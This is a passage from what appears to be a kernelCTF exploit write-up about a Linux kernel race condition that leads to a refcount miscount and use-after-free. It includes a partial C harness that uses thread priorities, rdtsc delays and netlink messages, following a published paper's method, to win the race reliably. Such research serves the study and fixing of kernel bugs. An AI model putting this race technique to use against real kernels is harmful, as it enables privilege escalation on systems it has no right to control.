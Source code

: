 
Furthermore, this primitive is more robust. Since a failed attack only results
in a memory leak (rather than an immediate crash), the attacker has an infinite
opportunity to attempt the race on a single connection, significantly increasing
reliability. In summary, routing the vulnerability through a Refcount Miscount
$\rightarrow$ UAF sequence makes the primitive easier and more reliable to
exploit.

# Taming uncertainty: CARDSHARK


In practice, this vulnerability remained hard to exploit quickly. KernelCTF only
accepts the first submission, and we were targeting the `lts` track (then
including `ns` in the `lts` channel), so speed was essential.


ExpRace made a hard exploit much feasible, but it amplified variance: our
window-width logs were inconsistent, which made the exploit brittle. We needed
to reduce this uncertainty.

A recent kernel-exploitation paper addressed the similar challenge and proposed
a way to mitigate the uncertainty: [CARDSHARK][1]. The paper introduces the
methods to align two threads to increase the certainty. We used the method
BLIND-SHARK from the paper:


```c
#define NICE_LOW_PRIO 19
#define NICE_HIGH_PRIO -20
#define UPGRADE_MSG_SIZE (0x400 - 42)

u8 flag1, flag2, flag3,stop;
size_t racer_delay = 0;
size_t racee_delay = 0 ;
static void delay(size_t n){
  size_t end;
  end = rdtsc()+n;
  while(rdtsc()<end);
  return;
}
void thr_racee(){
    setNice(NICE_LOW_PRIO); // Lowest priority
    flag1 = 1;
    stop = 0 ;
    while(!flag3);
    delay(racee_delay);
    // CPU 1
    NLMsgSend(nl,del1); // del -> dec;
    stop = 1;
}
void thr_racer(){
    setNice(NICE_HIGH_PRIO); // Highest priority
    flag2 = 1;
    while(!flag3);
    delay(racer_delay);
    // CPU 0
    write(inet_sock_fd, "", UPGRADE_MSG_SIZE); // upgrade
    while(!stop){
        NLMsgSend(nl,tclass_0x20002_create); // change it back
        write(inet_sock_fd, "", UPGRADE_MSG_SIZE); // upgrade
    }
}
void race_attemp(){
    unsigned long int thrs[2];
    pinCPU(1);
    pthread_create(&thrs[0],0,thr_racee,0);
```

[1]: https://www.usenix.org/system/files/usenixsecurity24-han-tianshuo.pdf
[2]: https://www.usenix.org/system/files/sec21-lee-yoochan.pdf
[3]: https://lore.kernel.org/all/aGIAbGB1VAX-M8LQ@xps/
[4]: https://git.kernel.org/pub/scm/linux/kernel/git/torvalds/linux.git/commit/?id=462dbc9101ac
[5]: https://blog.xmcve.com/2025/09/22/WMCTF2025-Writeup/#title-5
[6]: https://dl.acm.org/doi/proceedings/10.1145/3623652